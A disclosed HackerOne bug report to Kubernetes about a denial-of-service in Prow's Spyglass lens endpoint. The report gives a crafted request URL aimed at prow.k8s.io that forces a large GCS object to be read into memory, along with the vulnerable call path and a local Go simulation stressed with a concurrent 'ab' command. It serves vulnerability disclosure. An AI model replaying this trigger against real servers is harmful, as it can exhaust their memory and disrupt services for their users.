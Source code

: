 # DoS for GCSArtifact.RealAll

## Report Details
- **Report ID**: 833856
- **URL**: https://hackerone.com/reports/833856
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-29T12:30:23.076Z
- **Disclosed**: 2021-02-04T19:00:04.236Z

## Reporter
- **Username**: lazydog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Hi,
I'm not be goot at english,
if have anything don’t understand, please contact me.

Thanks!

## Summary:
attackers can control artifactName list make google storage client download large object cause denial of service.
## Component Version:
kubenetes/test-infra:master(SHA:fea5af139ecdac00e5efa46539bc80bd0f9e951c)

## Steps To Reproduce:
  1. request this url, we can see the http response is slowly.so i analyze the code process flow.
```
https://prow.k8s.io/spyglass/lens/buildlog/rerender?req={"artifacts":["k8s-test-cache.tar.gz"],"index":0,"src":"gcs/kubernetes-jenkins/cache/poc/"}
```{F764935}
  2. in "/spyglass/lens/" endpoint handle function, we can control the req.artifacts params make google storage client download a large object in memory. the vuln code flow like this:

```
test-infra/prow/cmd/deck/main.go:702  func handleArtifactView() ->
test-infra/prow/cmd/deck/main.go:1151 sg.FetchArtifacts(..., request.Artifacts) ->
test-infra/prow/spyglass/artifacts.go:119 s.GCSArtifactFetcher.artifact(..., artifactname) ->
etc..(path process, url sign)
test-infra/prow/cmd/deck/main.go:1175 lens.Body(artifacts) ->
test-infra/prow/spyglass/lenses/buildlog/lens.go:190 logLinesAll(artifact) ->
test-infra/prow/spyglass/lenses/buildlog/lens.go:213 artifact.ReadAll() ->
test-infra/prow/spyglass/gcsartifact.go:205 ioutil.ReadAll(reader)
```
{F764922}
  3.ensure prow infra is not interrupted, i write the simple code to simulation the vuln code, and use `ab -n 30 -c 30 http://localhost:8090/download` command concurrent request website.
```
package main

import (
    "net/http"
    "fmt"
    "io/ioutil"
    "strings"
)

func client() (r *http.Response, err error){
    var res *http.Response
    var hc = &http.Client{}
    // req, err := http.NewRequest("GET", "https://storage.googleapis.com/kubernetes-jenkins/cache/poc/k8s-test-cache.tar.gz", nil)
    req, err := http.NewRequest("GET", "http://localhost/10MB.BIN", nil)
    if err != nil {
        return nil, err
    }

    res, err = hc.Do(req)
    if err != nil {
        return nil, err
    }

    return res, nil
}

func download(w http.ResponseWriter, req *http.Request) {
    res, err := client()
    if err != nil {
        fmt.Fprintf(w, "err")
    }

    defer res.Body.Close()

    read, err := ioutil.ReadAll(res.Body)
    if err != nil {
        fmt.Fprintf(w, "err")
    }

    lines := strings.Split(string(read), "\n")
    data := strings.Join(lines, "")
    fmt.Fprintf(w, data)
}

func main() {
    http.HandleFunc("/download", download)

    http.ListenAndServe(":8090", nil)
}
```
result:
{F764944}

4.i think concurrent request the prow spyglass endpoint  also make server out of memory.

## Impact

attacker can send HTTP request to the prow can cause an a denial of service by control the fetcher download large object.

## Attachments
- ReadAll.png
- slowly.png
- oom.png
